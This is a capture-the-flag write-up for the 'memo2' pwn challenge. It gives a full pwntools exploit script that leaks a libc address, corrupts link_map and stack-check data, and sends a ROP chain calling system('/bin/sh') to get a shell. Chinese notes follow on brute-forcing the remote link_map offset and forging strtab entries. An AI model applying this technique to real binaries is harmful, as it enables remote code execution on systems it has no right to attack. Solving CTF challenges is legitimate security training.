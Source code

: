 ```python
#!/usr/bin/env python3  
#-*- coding: utf-8 -*-  
from pwn import*  
import os  
  
context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])  
  
def exp(host = "chall.geekctf.geekcon.top", port=40312, exe = "./memo2"):  
  global p  
  if len(sys.argv)==1:  
    p = remote("0.0.0.0", port)  
  else:  
    p = remote(host, port)  
  pass  
  
  offset = 0x160  
  libclinkmap = 0x2200  
  exit = 0xeac00  
  stack_chk_fail = 0x136550  
  write = 0x114870  
  poprdi = 0x000000000002a3e5  
  binsu = 0x001d8678  
  system = 0x50d70  
  ret = 0x00000000000f8c92  
  
  p.recvuntil(b"Please enter your password: ")  
  p.sendline(b"CTF_is_interesting_isn0t_it?")  
  
  p.recvuntil(b"Your choice:")  
  p.sendline(b"5")  
  p.recvuntil(b"Where would you like to sign(after the content): ")  
  p.sendline(str(libclinkmap+1).encode())  
  p.recvuntil(b"You will overwrite some content: ")  
  libc = p.recvn(5).rjust(6, b"\x00").ljust(8, b"\x00")  
  libc = u64(libc)  
  log.success(f"[*]libc: {hex(libc)}")  
  p.recvuntil(b"name: ")  
  payload = p64(libc + stack_chk_fail - exit)[1:] + p64(libc + 0x22c140) + b"\xc0"  
  payload = payload.ljust(0x28, b"\x90")  
  payload += p64(poprdi + libc) + p64(binsu + libc) + p64(ret + libc) +p64(system + libc)  
  p.send(payload)  
    
if __name__ == '__main__':  
	exp()  
	p.interactive()
```

另外，我本地跑出的libc的link_map的偏移与远端不同，我的解决方法是先泄露出相对偏移固定的ld.so的link_map，通过l_next找到相对固定的vdso的link_map，然后在远端泄露出libc的link_map，可以得到其固定的后两个hex为00，又已知mmap大小为0x2000，故直接从0x2000开始爆破0x100的位置即可，手动爆两次就成功了。

p.s. 后来学习了别人的博客，原来这题是可以伪造表项的，例如伪造strtab，只需让linkmap里的表项指向bss上指针的前一个地址。这应该是正解。我的解法似乎还没看到前人做过

